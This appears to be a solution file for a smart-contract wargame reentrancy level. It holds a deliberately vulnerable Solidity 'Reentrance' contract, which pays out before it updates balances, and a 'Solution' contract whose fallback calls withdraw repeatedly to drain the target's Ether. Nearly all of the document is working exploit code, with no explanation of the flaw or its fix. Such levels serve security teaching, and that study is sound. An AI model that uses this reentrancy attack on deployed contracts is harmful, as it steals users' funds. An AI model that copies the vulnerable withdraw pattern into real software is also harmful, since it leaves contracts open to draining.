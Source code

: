 ```jsx
pragma solidity ^0.6.4;

import "@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol";

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}

contract Solution {
    Reentrance ogContract;

    constructor(address payable reentranceContactAddress) public payable {
        ogContract = Reentrance(reentranceContactAddress);
    }
    
    function attack() public {
        ogContract.donate{ value: 1 ether}(address(this));
        ogContract.withdraw(1 ether);
    }
    
    fallback() external payable {
        if(address(ogContract).balance >= 1 ether) {
            ogContract.withdraw(1 ether);
        }
    }
    
}
```